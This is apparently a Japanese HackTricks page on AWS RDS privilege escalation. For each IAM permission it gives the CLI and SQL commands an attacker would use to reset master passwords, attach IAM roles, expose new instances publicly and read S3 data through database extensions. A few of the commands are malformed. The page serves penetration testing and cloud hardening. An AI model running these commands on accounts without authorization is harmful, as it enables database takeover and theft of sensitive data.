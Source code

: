 # AWS - RDS特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## RDS - リレーショナルデータベースサービス

RDSについての詳細は以下を参照してください：

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持つ攻撃者は、**マスターユーザーのパスワードを変更**し、データベース内のログインを変更することができます。
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続できる**必要があります（通常、内部ネットワークからのみアクセスできます）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールのIAM権限の乱用

#### Postgresql（Aurora）

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**を実行して、**`rdsadmin`**というデータベースが見つかった場合、**AWSのPostgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスへのアクセスに使用されたかどうかを確認できます。インストールされている拡張機能を確認することでこれを確認できます：
```sql
SELECT * FROM pg_extension;
```
もしも **`aws_s3`** のようなものを見つけた場合、このデータベースは **S3へのある種のアクセス** を持っていると推測できます（他にも **`aws_ml`** や **`aws_lambda`** のような拡張子があります）。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、**クラスタにIAMロールがアタッチされているかどうか** を **`AssociatedRoles`** フィールドで確認できます。もしアタッチされている場合、データベースは **他のAWSサービスへのアクセスが可能になるように準備されている** と推測できます。ロールの **名前**（またはロールの **権限** を取得できる場合）に基づいて、データベースがどのような追加アクセスを持っているかを **推測** することができます。

さて、**バケット内のファイルを読み取る** には、完全なパスを知る必要があります。次のコマンドで読み取ることができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**AWSの生の認証情報**を持っている場合、それらを使用して以下の方法でS3のデータにアクセスすることもできます。
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
PostgresqlはS3にアクセスするためにパラメータグループの変数を変更する必要はありません。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql内でクエリ**`SELECT User, Host FROM mysql.user;`**を実行し、**`rdsadmin`**というユーザーが存在する場合、**AWS RDS mysql db**内にいると推定できます。
{% endhint %}

mysql内で**`show variables;`**を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**などの変数に値がある場合、データベースがS3データにアクセスする準備ができていると推定できます。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、クラスタに関連付けられた**ロール**があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

さて、**バケット内のファイルを読み取る**には、フルパスを知る必要があります。次のコマンドで読み取ることができます：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`と`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更することができる可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスや、データへの不正な変更が可能です。\
ただし、一部のDBでは追加の設定が必要です。たとえば、MysqlではパラメータグループでロールARNを指定する必要があります。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は既に存在し、IAMロールがアタッチされているクラスタ内に**新しいインスタンスを作成**することができます。彼はマスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開することができるかもしれません。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しい RDS インスタンスを作成**することができます。攻撃者は、そのインスタンス内の**機密データにアクセス**したり、データを変更する可能性があります。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルは、あなたのアカウントに存在している必要があります。
* プロファイルには、Amazon EC2 がアサムする権限を持つ IAM ロールがある必要があります。
* インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスや、データの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`と`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**することができます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更することができる可能性があります。

{% hint style="warning" %}
この攻撃は、DBインスタンスがクラスターの外部にある場合にのみ可能です。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは権限のないデータの変更。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksのスポンサーになる**ことで、**会社の広告をHackTricksで掲載**したり、**PEASSの最新バージョンにアクセス**したり、**HackTricksをPDFでダウンロード**することができます。[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
